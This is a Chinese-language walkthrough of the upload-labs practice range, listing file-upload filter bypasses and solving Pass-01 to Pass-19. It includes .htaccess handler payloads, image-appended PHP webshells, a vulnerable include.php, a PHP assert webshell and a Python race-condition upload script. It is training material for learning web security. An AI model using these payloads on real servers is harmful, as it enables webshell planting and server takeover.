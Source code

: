 上传漏洞类型总结
 0x01.限制上传的逻辑在前端
 禁用js或者F12修改即可

0x02.仅限制Content-Type
 Burp截包，修改Content-Type，然后放行，即可绕过

0x03.可重写文件解析规则绕过
 即先上传个.htaccess文件，让解析规则变更

<FilesMatch “.jpg”>
 SetHandler application/x-httpd-php

 0x04.后缀名黑名单、过滤
 黑名单
 比如文件名后缀大小写混合绕过。.php改成.phP然后上传即可。感觉和XSS的一些过滤绕过非常相似。

可被利用过滤
 这种只删除一次php的，即可：
 双写文件名绕过，文件名改成xx.pphphp

0x05.可被利用Windows系统的特性
 利用Windows系统的文件名特性
 比如文件名最后增加点和空格，写成.php.，上传后保存在Windows系统上的文件名最后的一个.会被去掉，实际上保存的文件名就是.php

Windows文件流特性绕过
 文件名改成.php::$DATA，上传成功后保存的文件名其实是.php

0x06.可被截断绕过
 上传路径名%00截断绕过
 上传的文件名写成11.jpg, save_path改成…/upload/11.php%00，最后保存下来的文件就是11.php

0x07.文件头检查
 添加GIF图片的文件头GIF89a，绕过GIF图片检查。

0x08.渲染函数导致可用图片webshell
 原理：将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。具体实现需要自己编写Python程序，人工尝试基本是不可能构造出能绕过渲染函数的图片webshell的。

0x09.条件竞争
 利用条件竞争删除文件时间差绕过。



Pass-01
 上传的限制逻辑在前端，js里，限制js执行即可上传成功。

Pass-02
 截断上传数据包，修改Content-Type为image/gif，然后放行数据包

Pass-03
 重写文件解析规则绕过。上传先上传一个名为.htaccess文件，内容如下：

<FilesMatch “03.jpg”>
 SetHandler application/x-httpd-php


然后再上传一个03.jpg

执行上传的03.jpg脚本

Pass-04
 方法同Pass-03, 重写文件解析规则绕过

Pass-05
 文件名后缀大小写混合绕过。05.php改成05.phP然后上传

Pass-06
 利用Windows系统的文件名特性。文件名最后增加点和空格，写成06.php.，上传后保存在Windows系统上的文件名最后的一个.会被去掉，实际上保存的文件名就是06.php

Pass-07
 原理同Pass-06，文件名后加点，改成07.php.

Pass-08
 Windows文件流特性绕过，文件名改成08.php::$DATA，上传成功后保存的文件名其实是08.php

Pass-09
 原理同Pass-06，上传文件名后加上点+空格+点，改为09.php. .

Pass-10
 双写文件名绕过，文件名改成10.pphphp

Pass-11
 上传路径名%00截断绕过。上传的文件名写成11.jpg, save_path改成…/upload/11.php%00，最后保存下来的文件就是11.php

Pass-12
 原理同Pass-11，上传路径0x00绕过。利用Burpsuite的Hex功能将save_path改成…/upload/12.php【二进制00】形式

Pass-13
 绕过文件头检查，添加GIF图片的文件头GIF89a，绕过GIF图片检查。

使用命令copy normal.jpg /b + shell.php /a  webshell.jpg，将php一句话追加到jpg图片末尾，代码不全的话，人工补充完整。形成一个包含Webshell代码的新jpg图片，然后直接上传即可。JPG一句话shell参考示例

png图片处理方式同上。PNG一句话shell参考示例

上传图片木马成功后利用的需要文件解析漏洞

##include.php
<?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?>

需要配合文件包含来进行利用，漏洞文件保存为include.php 放在上传文件夹下

以下面的格式进行访问

http://172.16.13.92/upload-labs/upload/include.php?file=9520190927172903.jpg

![1569578106542](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1569578106542.png)

Pass-14
 原理和示例同Pass-13，添加GIF图片的文件头绕过检查

png图片webshell上传同Pass-13。

jpg/jpeg图片webshell上传存在问题，正常的图片也上传不了，等待作者调整。

Pass-15
 原理同Pass-13，添加GIF图片的文件头绕过检查

png图片webshell上传同Pass-13。

jpg/jpeg图片webshell上传同Pass-13。

Pass-16
 原理：将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。具体实现需要自己编写Python程序，人工尝试基本是不可能构造出能绕过渲染函数的图片webshell的。

这里提供一个包含一句话webshell代码并可以绕过PHP的imagecreatefromgif函数的GIF图片示例。

打开被渲染后的图片，Webshell代码仍然存在

提供一个jpg格式图片绕过imagecreatefromjpeg函数渲染的一个示例文件。 直接上传示例文件会触发Warning警告，并提示文件不是jpg格式的图片。但是实际上已经上传成功，而且示例文件名没有改变。

从上面上传jpg图片可以看到我们想复杂了，程序没有对渲染异常进行处理，直接在正常png图片内插入webshell代码，然后上传示例文件即可，并不需要图片是正常的图片。

程序依然没有对文件重命名，携带webshell的无效损坏png图片直接被上传成功。

Pass-17
 利用条件竞争删除文件时间差绕过。使用命令pip install hackhttp安装hackhttp模块，运行下面的Python代码即可。如果还是删除太快，可以适当调整线程并发数。

\#!/usr/bin/env python

# coding:utf-8

# Build By LandGrey

import hackhttp
 from multiprocessing.dummy import Pool as ThreadPool

def upload(lists):
 hh = hackhttp.hackhttp()
 raw = “”"POST /upload-labs/Pass-17/index.php HTTP/1.1
 Host: 127.0.0.1
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
 Accept-Encoding: gzip, deflate
 Referer: http://127.0.0.1/upload-labs/Pass-17/index.php
 Cookie: pass=17
 Connection: close
 Upgrade-Insecure-Requests: 1
 Content-Type: multipart/form-data; boundary=---------------------------6696274297634
 Content-Length: 341

-----------------------------6696274297634
 Content-Disposition: form-data; name=“upload_file”; filename=“17.php”
 Content-Type: application/octet-stream

 <?php assert($_POST["LandGrey"])?> 

-----------------------------6696274297634
 Content-Disposition: form-data; name=“submit”

上传
 -----------------------------6696274297634–
 “”"
 code, head, html, redirect, log = hh.http(‘http://127.0.0.1/upload-labs/Pass-17/index.php’, raw=raw)
 print(str(code) + “\r”)

pool = ThreadPool(10)
 pool.map(upload, range(10000))
 pool.close()
 pool.join()
 在脚本运行的时候，访问Webshell

Pass-18
 刚开始没有找到绕过方法，最后下载作者Github提供的打包环境，利用上传重命名竞争+Apache解析漏洞，成功绕过。

上传名字为18.php.7Z的文件，快速重复提交该数据包，会提示文件已经被上传，但没有被重命名。

快速提交上面的数据包，可以让文件名字不被重命名上传成功。

然后利用Apache的解析漏洞，即可获得shell

Pass-19
 原理同Pass-11，上传的文件名用0x00绕过。改成19.php【二进制00】.1.jpg

后记
 有些非预期解